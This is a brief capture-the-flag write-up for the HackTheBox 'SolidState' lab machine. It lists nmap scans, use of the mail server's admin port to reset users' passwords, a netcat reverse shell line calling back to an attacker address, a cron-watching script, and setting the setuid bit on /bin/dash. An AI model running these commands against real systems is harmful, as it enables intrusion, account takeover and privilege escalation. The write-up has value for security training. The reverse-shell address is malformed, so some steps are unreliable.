


# HackTheBox SolidState Writeup

  
  

## Detailed Solution

### Nmap Scan
      
Initial Scan      

      > nmap -sC -sV -oA nmap/initial 10.10.10.51

      
Full Port Scan to Check Background Ports

      > nmap -p- -T5 -oA nmap/allports 10.10.10.51

Targeted Port Scan
      > nmap -p 110,119,22,25,4555,80 -sC -sV -oA nmap/targeted --script vuln 10.10.10.51
      
### Analyse Vulnerable Ports      
      Grep open ports using gnmap file

      > grep -oP '\d{1,5}/open' nmap/allports.gnmap | sort -u > ports.list
      
      > nc 10.10.10.51 4555
Then You Login to a Smtp Server, and now you can change user's password to get acess to his(her) email system on Thunder Bird. Such as mindy@10.10.10.51, etc.
      ssh mindy@10.10.10.51

### nc-style Reverse Shell      
      nc -e /bin/bash 10.10.10.14.7 1234 &
      
### Write PSMONITOR.sh to Check if Custom CMD is Executed By Cron.
      IFS=$'\n'
      op=$(ps -eo command)
      while true; do
        np=$(ps -eo command)
        diff <(echo "$op") <(echo "$np")
        sleep .2
        op=$np
      done        
      
#### Set UID Bit
      chmod 4755 /bin/dash
      
Through LinEnum Scan      
      > bash LinEnum.sh -t      
      
Ippsec Version      

      :%s/\/ope//g
      :%s/n\n/,/g
      
Fast Version:      

      :%s/\/open\n/,/g

